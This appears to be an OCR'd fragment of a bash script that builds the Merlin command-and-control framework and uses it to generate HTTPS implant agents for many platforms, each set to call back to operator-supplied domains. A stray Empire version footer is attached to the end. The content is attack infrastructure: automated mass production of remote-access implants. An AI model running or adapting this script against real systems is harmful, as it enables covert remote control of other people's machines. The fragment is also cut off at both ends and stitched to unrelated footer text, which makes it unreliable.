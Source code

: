 ```bash
    echo "Building Merlin from source..."
    cd "$MERLIN_PATH"
    make
fi

# Function to generate Merlin agents
generate_agents() {
    local SERVER_URL=$1
    local DOMAIN_DIR=$2
    
    # Create domain directory
    mkdir -p "$DOMAIN_DIR"
    
    # Generate agents for each platform/arch combination
    for PLATFORM in "${PLATFORMS[@]}"; do
        for ARCH in "${ARCHS[@]}"; do
            # Skip invalid combinations
            if [ "$PLATFORM" == "darwin" ] && [ "$ARCH" == "386" ]; then
                continue
            fi
            
            echo "Generating $PLATFORM/$ARCH agent for $SERVER_URL..."
            
            # Determine file extension
            EXT=""
            if [ "$PLATFORM" == "windows" ]; then
                EXT=".exe"
            fi
            
            # Create Merlin script
            cat > "/tmp/merlin_gen.cmd" << EOF
agents
use HTTPS
generate $PLATFORM $ARCH $SERVER_URL
exit
EOF
            
            # Run Merlin in headless mode
            cd "$MERLIN_PATH/data/bin"
            ./merlinServer-linux-x64 -i /tmp/merlin_gen.cmd > /tmp/merlin_output.log 2>&1
            
            # Move generated agent to output directory
            AGENT_FILE=$(grep "agent generated at" /tmp/merlin_output.log | awk '{print $NF}')
            if [ -f "$AGENT_FILE" ]; then
                OUTPUT_FILE="$DOMAIN_DIR/merlin_${PLATFORM}_${ARCH}${EXT}"
                cp "$AGENT_FILE" "$OUTPUT_FILE"
                echo "Agent saved to $OUTPUT_FILE"
            else
                echo "Failed to generate agent for $PLATFORM/$ARCH"
            fi
        done
    done
}

# Generate agents for each domain
for DOMAIN in "${DOMAINS[@]}"; do
    generate_agents "https://$DOMAIN:$SERVER_PORT" "$OUTPUT_DIR/$DOMAIN"
done

# Create server start script
cat > "$OUTPUT_DIR/start_merlin_server.sh" << EOF
#!/bin/bash
cd "$MERLIN_PATH/data/bin"
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire